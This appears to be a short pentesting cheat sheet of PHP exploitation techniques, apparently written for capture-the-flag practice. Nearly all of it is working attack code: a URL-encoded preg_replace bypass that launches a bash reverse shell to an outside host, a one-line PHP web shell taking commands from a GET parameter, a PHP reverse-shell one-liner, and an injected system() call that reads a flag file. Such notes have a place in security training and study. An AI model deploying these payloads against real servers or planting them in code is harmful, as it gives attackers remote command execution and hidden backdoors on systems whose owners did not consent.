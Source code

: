 # PHP

Common exploits in PHP.

## Start a Web Server

php -S 127.0.0.1:8000

## Cookies

`PHPSESSID` is the default session cookie name.

## Bypass preg_replace

If we now there is something like a word filter, there is probably a `preg_replace` function. We can try to bypass it sending something in the word that is being replaced.

```
swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%30%2f%34%34%34%34%20%30%3e%26%31%27%22%29%3bto=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E
```

The payload is 

```php
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'");
```

But URL encoded.

## Web shell

```php
<?php system($_GET["cmd"]); ?>
```

## Reverse shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");?>
```

## Examples

```
http://<IP>:45338/?format=${system($_GET[id])}&id=cat%20../flag.txt
```